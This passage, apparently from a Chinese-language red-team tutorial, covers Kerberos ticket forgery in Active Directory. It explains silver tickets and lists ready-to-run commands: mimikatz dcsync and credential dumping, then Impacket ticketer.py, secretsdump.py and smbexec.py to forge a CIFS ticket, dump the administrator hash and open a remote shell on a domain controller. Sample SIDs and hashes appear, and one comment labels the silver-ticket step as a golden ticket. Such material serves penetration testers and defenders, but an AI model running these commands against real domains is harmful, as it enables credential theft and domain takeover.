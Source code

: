 于是再可以用当前用户连接到域控了

可以用 dcsync 验证

```
lsadump::dcsync /domain:redteam.red /user:kebtgt /csv
```



3、工具三：cs



### 白银票据

如果说黄金票据是伪造的TGT,那么白银票据就是伪造的ST。**在 TGS-REP 阶段**
在Kerberos认证的第三部，Client带着ST和Authenticator3向Server上的某个服务进行请求，Server接收到Client的请求之后,通过自己的Master Key 解密ST,从而获得 Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问server上的指定服务了。
所以我们只需要知道Server用户的Hash就可以伪造出一个ST,且不会经过KDC,从而更加隐蔽，但是伪造的门票只对部分服务起作用,如cifs（文件共享服务），mssql，winrm（windows远程管理），DNS等等



1. 不需要与KDC进行交互 
2. 需要server的NTLM hash

利用前提：

- 拿到目标机器hash(是目标机,不一定是域控) 相当于server

条件要求：

- 域名
- 域sid
- 目标服务器FQDN
- 可利用的服务
- 服务账号的NTML HASH
- 需要伪造的用户名



mimikatz 获取 信息 `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt`

```
sid  S-1-5-21-97341123-1865264218-933115267
域控hash  6a624aa8c58aa3bbf387786088f34dad
```



工具一：Impacket 

这里用的 cifs 服务，也可以用 ldap 服务

```bash
#生成黄金票据
ticketer.py -domain-sid S-1-5-21-1359007890-1682372173-1631803504 -nthash 6a624aa8c58aa3bbf387786088f34dad -spn cifs/owa.redteam.red  -domain redteam.red administrator
#导入票据
export KRB5CCNAME=administrator.ccache
#导出用户 administrator 的 hash
secretsdump.py -k -no-pass administrator@owa.redteam.red -dc-ip 192.168.2.13 -just-dc-user administrator
#远程连接域控
smbexec.py -no-pass -k administrator@owa.redteam.red -dc-ip 192.169.2.13 -codec gbk
```
